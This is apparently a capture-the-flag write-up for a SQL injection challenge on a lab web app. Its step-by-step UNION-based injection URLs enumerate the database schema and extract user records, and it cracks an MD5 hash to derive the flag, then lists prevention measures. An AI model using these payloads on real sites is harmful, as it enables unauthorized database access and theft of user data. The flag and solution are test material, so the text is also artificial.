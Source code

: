 # Flag Documentation: SQL Injection Flag

## Challenge Overview
This challenge involves exploiting a SQL Injection vulnerability in a web application to retrieve sensitive information from the database and uncover a hidden flag.

## Tools Needed
- [MD5 Decrypt](https://md5decrypt.net/)

## Steps to Solve

1. **Test for Vulnerability**:
   - Start by testing if the `id` parameter is vulnerable to SQL Injection. Modify the `id` parameter to:
     ```
     http://10.14.59.254/?page=member&id=1+OR+1=1+--+&Submit=Submit#
     ```
   - If the page behaves differently, it confirms the presence of a SQL Injection vulnerability.

2. **Find Columns**:
   - Next, determine the number of columns in the query using the following payload:
     ```
     http://10.14.59.254/?page=member&id=1+UNION+SELECT+NULL,NULL+--+&Submit=Submit#
     ```
   - Adjust the number of `NULL` values if needed, until the page loads correctly. This will help you find the correct number of columns.

3. **Explore Schema**:
   - Once the columns are identified, explore the database schema to retrieve information about the tables and columns. Use the following query:
     ```
     http://10.14.59.254/?page=member&id=1+UNION+SELECT+table_name,column_name+FROM+information_schema.columns+--+&Submit=Submit#
     ```

4. **Focus on the Users Table**:
   - To narrow down the search, focus on the `users` table and retrieve its column names by using:
     ```
     http://10.14.59.254/?page=member&id=1+UNION+SELECT+table_name,column_name+FROM+information_schema.columns+WHERE+table_name='users'+--+&Submit=Submit#
     ```

5. **Retrieve Data**:
   - Now, use the information from the previous steps to retrieve user data. To extract sensitive data for the user with `user_id=5`, use:
     ```
     http://10.14.59.254/?page=member&id=1+UNION+SELECT+NULL,CONCAT(first_name,last_name,town,country,planet,Commentaire,countersign)+FROM+users+WHERE+user_id=5+--+&Submit=Submit#
     ```

6. **Decrypt the Flag**:
   - You will encounter the following string:
     ```
     FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
     ```
   - The `5ff9d0165b4f92b14994e5c685cdce28` is an MD5 hash. Use [MD5 Decrypt](https://md5decrypt.net/) to decrypt it to get `FortyTwo`.
   - Convert `FortyTwo` to lowercase: `fortytwo`.
   - Finally, encrypt `fortytwo` using SHA256 to get the flag:
     ```
     10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
     ```

## How to Avoid This Breach in a Website

1. **Use Prepared Statements**: Always use prepared statements with parameterized queries to prevent SQL injection vulnerabilities.
2. **Input Validation**: Validate and sanitize all user inputs to ensure that malicious SQL commands are not accepted.
3. **Limit Database Permissions**: Apply the principle of least privilege to database users, ensuring they can only perform the necessary actions.
4. **Use Web Application Firewalls (WAFs)**: Implement a WAF to detect and block SQL injection attempts.
5. **Conduct Regular Security Testing**: Regularly perform security audits, penetration testing, and code reviews to identify and fix potential SQL injection vulnerabilities.
